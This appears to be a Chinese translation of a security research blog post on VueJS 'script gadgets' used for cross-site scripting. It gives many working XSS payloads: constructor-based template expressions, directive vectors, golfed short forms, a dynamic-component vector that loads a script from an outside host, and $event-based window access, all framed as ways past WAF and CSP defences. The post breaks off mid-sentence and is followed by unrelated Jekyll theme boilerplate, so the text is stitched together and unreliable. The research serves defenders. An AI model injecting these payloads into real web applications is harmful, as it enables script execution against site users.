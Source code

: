 ```yaml
---
layout: post
title: 使用VueJS脚本gadgets规避防御
---
```


## 介紹
我们发现，流行的JavaScript框架VueJS提供了对网站安全有严重影响的功能。如果您遇到使用Vue的Web应用程序，本篇文章将帮助您识别由gadgets脚本创建的Vue特定XSS向量，您可以使用这些gadgets脚本来利用目标。

gadgets脚本是由框架创建的额外功能，可以导致JavaScript执行。这些功能可以是JavaScript或基于HTML的。gadgets脚本通常对绕过WAF和CSP等防御措施很有用。从开发者的角度来看，了解一个框架或库创建的所有gadgets脚本也是很有用的；当允许用户在自己的Web应用程序中输入时，这些知识可以帮助防止XSS漏洞。在本篇文章中，我们将涵盖从基于表达式的向量到突变XSS（mXSS）等多种技术。

### 注意
这里有很多信息!如果你对学习攻击感兴趣，你可能会想读完这本书。但如果你遇到了特定的场景，只是需要一个解决它的向量，你可以直接跳到我们[XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#vuejs-reflected)中新更新的VueJS部分。

在这篇文章中，我们将涵盖:

1.指令

2.缩短有效载荷

3.事件

4.突变

5.为V3调整有效载荷

6.传送

7.使用案例


## 一切都是从哪里开始的？

在[推特](https://twitter.com/PortSwiggerRes/status/1265647826383634432?s=20)上讨论各种 VueJS 攻击的时候，我、[Lewis Ardern](https://twitter.com/LewisArdern) 和 [PwnFunction](https://twitter.com/PwnFunction) 决定创建一篇博文来更详细地介绍它们。我们的合作非常有趣，并想出了一些有趣的向量。这一切都始于尝试缩减以下[VueJS XSS向量](https://portswigger-labs.net/xss/vuejs2.php?x=%7B%7BtoString().constructor.constructor(%27alert(1)%27)()%7D%7D)。
```
{{toString().constructor.constructor('alert(1)')()}}
```

为了找出如何缩减它，我们需要看看我们的向量是如何被转换的。我们查看VueJS源码，搜索Function构造函数的调用。有些情况下，Function构造函数被调用了，但创建的函数却没有。我们跳过了这些实例，因为我们确信这不是我们的代码被转换的地方。[在第11648行，我们最终找到了一个调用生成函数的Function构造函数](https://github.com/vuejs/vue/blob/6fe07ebf5ab3fea1860c59fe7cdd2ec1b760f9b0/src/compiler/to-function.js#L14)。
```
return new Function(code)
```

我们在这一行添加了一个断点，并刷新了页面。然后我们检查了代码变量的内容，果然，我们可以看到我们的向量。代码在一个with语句中，后面是一个return语句。因此，执行代码的范围是在with语句中指定的对象内。基本上，这意味着没有全局的alert()函数，但在with范围内，有VueJS函数，如_c、_v和_s。

如果我们使用这些函数，我们就可以减少表达式的大小。这个函数的构造函数将是Function构造函数，它允许我们执行代码。这意味着我们可以将向量减少到。
```
{{_c.constructor('alert(1)')()}}
```

### 调试VueJS
在我们继续之前，也许应该先快速了解一下我们使用的调试工具。

[Vue Devtools](https://github.com/vuejs/vue-devtools)。官方的浏览器扩展，可以用来调试用VueJS构建的应用。

[Vue-template-compiler](https://www.npmjs.com/package/vue-template-compiler)。将模板编译成渲染函数，这可以帮助我们看到Vue内部如何表示模板。这个工具有一个方便的在线版本，叫做template-explorer。

我们还不时地重写VueJS原型，添加日志等功能，以便我们可以看到内部发生的事情。

## VueJS第2版
### 指令
就像其他框架一样，VueJS中的一些指令让我们的生活变得更轻松.几乎每一个VueJS指令都可以作为一个gadgets来利用。让我们来看一个例子。

#### v-show指令

```
<p v-show="_c.constructor`alert(1)`()">
```
这是一段比较简单的代码。有一个叫做v-show的指令，用来根据逻辑条件从DOM中显示或隐藏一个元素。在这种情况下，条件就是向量。

这个非常相同的向量可以应用于其他指令，包括v-for、v-model、v-on等。

#### v-on指令
```
<x v-on:click='_b.constructor`alert(1)`()'>click</x>
```

#### v-bind 指令
```
<x v-bind:a='_b.constructor`alert(1)`()'>
```
这些gadgets的多样性可以帮助你创建灵活的向量，可以很容易地用于绕过WAFs。

### 最小化向量
最小化向量--也被称为 "代码高尔夫"--意味着找到用尽可能少的字符或字节达到同样结果的方法。我们最初假设最短的向量是模板表达式，这意味着我们必须使用4个字节来添加所需的大括号{{ }}。然而，这个假设被证明是错误的。

我们花了大量的时间调试、查看源代码和阅读文档。我们找不到任何通过模板缩短矢量的方法，于是我们开始研究标签。

我们从35个字节开始，最终向上爬。但在这个过程中，通过使用VueJS解析器的怪癖，我们发现了一些非常有趣的向量。
```
<x @[_b.constructor`alert(1)`()]> (35 bytes)
<x :[_b.constructor`alert(1)`()]>  (33 bytes)
<p v-=_c.constructor`alert(1)`()> (33 bytes)
<x #[_c.constructor`alert(1)`()]> (33 bytes)
<p :=_c.constructor`alert(1)`()> (32 bytes)
```

但短的还是模板向量。
```
{{_c.constructor('alert(1)')()}}  (32 bytes)
{{_b.constructor`alert(1)`()}}    (30 bytes)
```
在尝试了无数种方法来编写高尔夫代码，只是为了能让它在30个字节以内，我们最终在Vue API中遇到了动态组件。

动态组件本质上是可以在稍后的时间点改变为不同的组件。这是通过使用标签上的is属性实现的。考虑下面的例子。
```
<x v-bind:is="'script'" src="//14.rs" />
```

这可以缩短为：
```
<x is=script src=//⑭.₨>
```

现在只有23个字节了！这是我们在整个研究过程中能想到的VueJS v2最短的向量。这是我们在整个研究过程中能想到的VueJS v2最短的向量。

### 事件
就像AngularJS一样，VueJS定义了一个名为$event的特殊对象，它引用了浏览器中的事件对象。使用这个$event对象，你可以访问浏览器窗口对象，允许你调用任何你喜欢的东西。
```
<img src @error="e=$event.path;e[e.length-1].alert(1)">
<img src @error="e=$event.path.pop().alert(1)">
```

我们确定@error会对一个表达式进行评估，因为VueJS提供了速记语法，这使得你可以用@代替使用v-on指令为错误或点击等事件的处理程序打前缀。文档中还透露，你可以使用$event变量来访问原始DOM事件。

这些向量的工作得益于Chrome在事件执行时定义的一个特殊路径属性。这个属性包含一个触发事件的对象数组。对我们来说至关重要的是，窗口对象总是这个数组中的最后一个元素。composedPath()函数会在其他浏览器中生成一个类似的数组，这使得我们可以构建一个跨浏览器向量，如下所示。














There are currently two themes built on Poole:

* [Hyde](http://hyde.getpoole.com)
* [Lanyon](http://lanyon.getpoole.com)

Learn more and contribute on [GitHub]({{ site.github.repo }}).

## What's included

Poole is a streamlined Jekyll site designed and built as a foundation for building more meaningful themes. Poole, and every theme built on it like this one, includes the following:

* Complete Jekyll setup included (layouts, config, [404]({{ '404.html' | relative_url }}), [RSS feed]({{ 'atom.xml' | relative_url }}), posts, [archive page]({{ 'archive' | relative_url }}), and [example page]({{ 'about' | relative_url }}))
* Mobile friendly design and development
* Easily scalable text and component sizing with `rem` units in the CSS
* Support for a wide gamut of HTML elements
* Related posts (time-based, because Jekyll) below each post
* Syntax highlighting, courtesy Jekyll's built-in support for Rouge

Additional features are available in individual themes.

## Browser support

Poole and its themes are by preference a forward-thinking project. In addition to the latest versions of Chrome, Safari (mobile and desktop), Firefox, and Edge.

## Download

These themes are developed on and hosted with GitHub. Head to the [GitHub repository]({{ site.github.repo }}) for downloads, bug reports, and features requests.

Thanks!
